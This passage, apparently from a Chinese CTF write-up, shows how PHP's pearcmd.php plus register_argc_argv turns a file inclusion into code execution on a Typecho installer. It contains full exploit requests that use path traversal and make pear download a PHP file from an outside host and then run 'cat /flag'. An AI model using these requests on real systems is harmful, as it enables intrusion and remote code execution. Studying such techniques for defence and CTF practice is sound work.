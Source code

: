 3. 通过执行`pear`命令获取帮助,发现存在download选项,尝试执行`pear download http://127.0.0.1:8080/tmp.php`,可以看到已经成功在当前目录下载了tmp.php:
   ![img](https://gitee.com/guuest/images/raw/master/img/20210605082702.png)

4. 有没有办法控制下载目录?答案是使用install -R而非download,尝试执行`pear install -R /var/www/html http://127.0.0.1:8080/tmp.php`

   ![img](https://gitee.com/guuest/images/raw/master/img/20210605082751.png)

5. 成功下载到web目录下并能够访问
   ![img](https://gitee.com/guuest/images/raw/master/img/20210605082843.png)

如何控制$_SERVER['argv'][#](https://longlone.top/安全/安全研究/register_argc_argv与include限制php任意文件下载的小结/#如何控制_serverargv)



```
POST /install.php?config=111&panel=111111111111&+install+-R+/tmp+http://47.94.0.250:8080/1.php HTTP/1.1
Host: 121.36.229.59:32766
Content-Length: 309
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://121.36.229.59:32766
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.85 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://121.36.229.59:32766/install.php?config
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: __typecho_lang=zh_CN
Connection: close

dbAdapter=../../../../../../../../../../../../usr/local/lib/php/pearcmd&dbHost=localhost&dbPort=3306&dbUser=root&dbPassword=ada&dbDatabase=typecho&dbCharset=utf8&dbPrefix=typecho_&userUrl=http%3A%2F%2F121.36.229.59%3A32767&userName=admin&userPassword=adad&userMail=webmaster%40yourdomain.com&action=config1111
```



```
POST /install.php?config=111 HTTP/1.1
Host: 121.36.229.59:32766
Content-Length: 321
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://121.36.229.59:32766
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.85 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://121.36.229.59:32766/install.php?config
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: __typecho_lang=zh_CN
Connection: close

dbAdapter=../../../../../../../../../../../../tmp/tmp/pear/download/1&dbHost=localhost&dbPort=3306&dbUser=root&dbPassword=ada&dbDatabase=typecho&dbCharset=utf8&dbPrefix=typecho_&userUrl=http%3A%2F%2F121.36.229.59%3A32767&userName=admin&userPassword=adad&userMail=webmaster%40yourdomain.com&action=config1111&111=cat+/flag
```